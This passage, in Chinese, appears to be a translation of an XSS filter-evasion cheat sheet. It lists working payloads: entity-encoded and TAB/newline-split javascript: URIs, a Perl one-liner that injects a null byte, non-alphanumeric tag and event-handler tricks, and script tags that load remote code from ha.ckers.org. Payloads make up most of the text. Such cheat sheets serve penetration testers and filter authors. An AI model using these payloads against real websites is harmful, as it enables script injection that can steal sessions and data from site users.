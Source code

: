 `<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>`

### 使用TAB、换行、回车符改变代码形式

使用普通tab分开代码：`<IMG SRC="jav	ascript:alert('XSS');">`
使用编码的TAB分开xss攻击代码：`<IMG SRC="jav&#x09;ascript:alert('XSS');">`

- TAB 编码： `&#x09;`
- 换行符 编码：`&#x0A;`
- 回车符编码：`&#x0D;`


#### 推广至换行符，回车符
一些网站声称09-13编码的所有字符（十进制）都可以实现这种形式的攻击。这是不正确的。只有09(tab), 10 (换行) 和 13 (回车)可以使用。你可以查看ascii表为更详细的信息。

`<IMG SRC="jav&#x0A;ascript:alert('XSS');">`

`<IMG SRC="jav&#x0D;ascript:alert('XSS');">`

注意：上面我编写的三个xss字符串比必须长度的字符串更长，原因是0可以被省略。通常我看到的过滤器假设十六进制和十进制的编码是两到三个字符，正确的应该是一到七个字符。


### 没有分割的javascript指令

null字符也可以作为一个xss向量，但不同于上面。你需要直接注入它们利用一些工具例如Burp Proxy，或是使用 %00 在你的url字符串里。或者如果你想写你自己的注入工具你可以使用vim（^V^@ 会生成null），以及用下面的程序去生成它到一个文本文件中。好吧，我再一次撒谎了。 Opera的老版本（大约 7.11 on Windows）是脆弱的对于一个额外的字符173（软连字符）。但是null字符 %00 是更加的有用或者帮助我们绕过某些真实存在的过滤器通过变动像这个例子中的。

`perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out`
### IMG中javascript之前添加空格和元字符为xss绕过

xss过滤拼配模式没有考虑单词”javascript:”中可能存在空格是正确的，因为否则将无法渲染。但是这也导致了错误的假设认为你不可以有一个空格在引号和 “javascript:” 单词之间。事实上你可以插入 1-32编码字符（十进制）中的任何字符。

`<IMG SRC=" &#14;  javascript:alert('XSS');">`
### 非字母数字字符的xss
Firefox html解析器认为一个非数字字母的字符在一个html关键字中不是有效的，因此这些字符会被视为空白符或是无效的token在html标签之后。这导致很多xss过滤器错误的认为html标签必须是被空白符隔断的。例如，`<SCRIPT\s” != “<SCRIPT/XSS\s`

`<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>`

和上面的原理相同，我们继续扩大，Gecko渲染引擎允许字母、数字、html封装字符以外的任何字符位于事件处理器与等号之间。借此我们可以绕过xss过滤器。注意这也是适用于重音符如下所示：

```
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
```
Yair Amit 提示我有一个小区别在 ie和Gecko 渲染引擎之间是在不使用空格的情况下，Gecko仅允许一个斜杠在html标签和参数之间。这可能是有用的在那些不允许输入空格的系统中。

`<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>`
### 额外的开括号
Franz Sedlmaier提出，利用这个xss向量可以绕过某些检测引擎，因为这些引擎通过拼配最早出现的一对尖括号，并且提取其内部内容作为标签，而没有使用更加有效的算法例如 Boyer-Moore（寻找打开的尖括号以及相关标签的模糊拼配）。最后，代码中的双斜杠可以抑制额外尖括号导致的javascript错误。
